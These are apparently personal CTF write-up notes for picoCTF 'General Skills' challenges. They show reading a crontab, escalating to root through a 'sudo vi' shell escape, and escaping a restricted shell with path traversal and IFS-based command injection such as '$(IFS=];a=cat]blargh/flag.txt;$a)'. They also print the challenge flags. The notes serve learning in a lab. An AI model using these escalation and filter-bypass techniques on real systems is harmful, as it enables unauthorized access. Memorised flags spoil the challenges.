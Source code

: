 # General Skills

# Chrono

---

How to automate tasks to run at intervals on linux servers?

<aside>
💡 To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks

</aside>

```bash
picoplayer@challenge:/etc/systemd/system/default.target.wants$ cd /etc

picoplayer@challenge:/etc$ cat crontab  
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_1d781160}
```

[](https://academy.hackthebox.com/module/18/section/2093)

# **Permissions**

---

Can you read files in the root file?

<aside>
💡 What may available to us as a sudo user?

</aside>

```bash
picoplayer@challenge:/$ sudo -h
-l, --list  list user's privileges or check a specific command; use twice for longer format
```

```bash
picoplayer@challenge:/$ sudo -ll
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:

Sudoers entry:
    RunAsUsers: ALL
    Commands:
        /usr/bin/vi
```

<aside>
💡 When using vi as a sudo user, all the command pass into it will also be sudo. (Bypass the permission denial)

</aside>

<aside>
💡 Using command in vi: [esc]:! [command] [enter]

</aside>

![Untitled](General%20Skills%2077e92b7ab9324882908a9382e730e433/Untitled.png)

```bash
picoplayer@challenge:~$ sudo vi

total 16
drwx------ 1 root root   22 Sep 10 13:50 .
drwxr-xr-x 1 root root   63 Sep 10 13:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:34 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  774 Sep 10 13:50 .viminfo

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

# Special (Bypass the shell)

---

<aside>
💡 How to bypass the shell?

</aside>

## Solution 1: Observation

<aside>
💡 We can observe that ../ won’t be capitalized and word ckeck

</aside>

```bash
Special$ ../
../ 
sh: 1: ../: Permission denied
Special$ ../../
../../ 
sh: 1: ../../: Permission denied
```

<aside>
💡 We know that common used commands such as `ls` has absolute address /root/usr/bin/

</aside>

```bash
Special$ ../../usr/bin/ls
../../usr/bin/ls 
blargh
Special$ ../../usr/bin/ls ./blargh
../../usr/bin/ls ./blargh 
flag.txt
Special$ ../../usr/bin/cat ./blargh/flag.txt
../../usr/bin/cat ./blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$
```

## Solution 2: Interpolated command from strings (Injection)

Although we use $(), but it doesn’t allow space in it.

```bash
Special$ $(ls)
$(ls) 
sh: 1: blargh: not found
Special$ $(ls blargh)
Pals blargh) 
sh: 1: Syntax error: ")" unexpected
```

We have to bypass the space

[Bypass Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<aside>
💡 Internal field separator

</aside>

```bash
Special$ $(IFS=];b=ls]blargh;$b)
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $(IFS=];a=cat]blargh/flag.txt;$a)
$(IFS=];a=cat]blargh/flag.txt;$a) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
```

# Specialer ( `ls` and `cat` alternative )

---

<aside>
💡 Alternative of ls is `echo *` , for more usage: `echo * .*` `echo * .* */*`

</aside>

<aside>
💡 Alternative of cat is `echo "$(<file.txt)"`

</aside>

[John Jarvis](https://jarv.org/posts/cat-without-cat/)